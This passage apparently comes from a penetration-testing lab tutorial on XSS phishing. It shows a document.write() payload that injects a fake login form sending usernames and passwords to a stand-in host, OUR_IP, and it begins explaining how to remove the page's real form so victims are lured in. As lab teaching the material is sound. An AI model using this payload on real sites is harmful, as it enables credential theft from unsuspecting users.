 In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the ( `ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>

```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');

```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form.jpg)

* * *

## Cleaning Up

We can see that the URL field is still displayed, which defeats our line of " `Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking \[ `CTRL+SHIFT+C`\] and then clicking on the element we need:
![Page Inspector Picker](https://academy.hackthebox.com/storage/modules/103/xss_page_inspector_picker.jpg)

As we see in both the source code and the hover text, the `url` form has the id `urlform`:

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>

```
